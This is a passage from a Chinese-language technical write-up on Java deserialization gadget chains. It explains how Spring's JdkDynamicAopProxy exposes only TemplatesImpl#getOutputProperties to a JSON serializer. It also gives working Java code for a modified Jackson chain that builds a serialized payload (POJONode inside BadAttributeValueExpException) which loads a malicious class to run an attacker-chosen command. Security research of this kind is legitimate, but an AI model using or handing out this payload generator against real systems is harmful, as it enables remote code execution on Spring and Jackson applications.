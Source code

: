 代码很长，简单概括一下，`JdkDynamicAopProxy` 类的 `advised` 成员是一个 `org.springframework.aop.framework.AdvisedSupport` 类型的对象，它的 `targetSource` 成员中保存了 `JdkDynamicAopProxy` 类代理的接口的实现类。

当代理类上的一个接口方法被调用时，这个 `handler` 就会尝试调用 `targetSource` 成员保存的实现类对象所实现的对应方法。

所以这里 JSON1 链是先使用 commons-beanutils 这个库获取代理类所有的 `getter` 方法，然后调用代理类的 `getter` 方法，触发 `JdkDynamicAopProxy` 类的 `invoke` 方法。

同时应该注意到，**当我们使用反射获取一个代理类上的所有方法时，只能获取到其代理的接口方法**。

我们的目的应该是让代理类仅仅包含我们需要的方法 `getOutputProperties`。

查看 `TemplatesImpl` 实现的 `javax.xml.transform.Templates` 这个接口。

可以看到它只有一个 `getter` 方法，就是我们需要的 `getOutputProperties` 方法。

```plain
public interface Templates {

    Transformer newTransformer() throws TransformerConfigurationException;

    Properties getOutputProperties();
}
```

所以这里提取出 JSON1 链解决 JSON 序列化库类型依赖触发 `getter` 不稳定问题的思路如下：

1.  构造一个 `JdkDynamicAopProxy` 类型的对象，将 `TemplatesImpl` 类型的对象设置为 `targetSource`
2.  使用这个 `JdkDynamicAopProxy` 类型的对象构造一个代理类，代理 `javax.xml.transform.Templates` 接口
3.  JSON 序列化库只能从这个 `JdkDynamicAopProxy` 类型的对象上找到 `getOutputProperties` 方法
4.  通过代理类的 `invoke` 机制，触发 `TemplatesImpl#getOutputProperties` 方法，实现恶意类加载

这需要添加一个 Spring AOP 的依赖，但是在 SpringBoot 环境下默认是存在这个依赖的。

## JACKSON 链的修改

生成修改过的 JACKSON 链，代码如下：

```plain
public static byte[] getJSON2(String cmd) throws Exception {
                // step 1
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
                // step 2
        POJONode node = new POJONode(makeTemplatesImplAopProxy(cmd));
                // step 3
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);

        return serialize(val);
    }

    public static Object makeTemplatesImplAopProxy(String cmd) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(makeTemplatesImpl(cmd));
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }
```
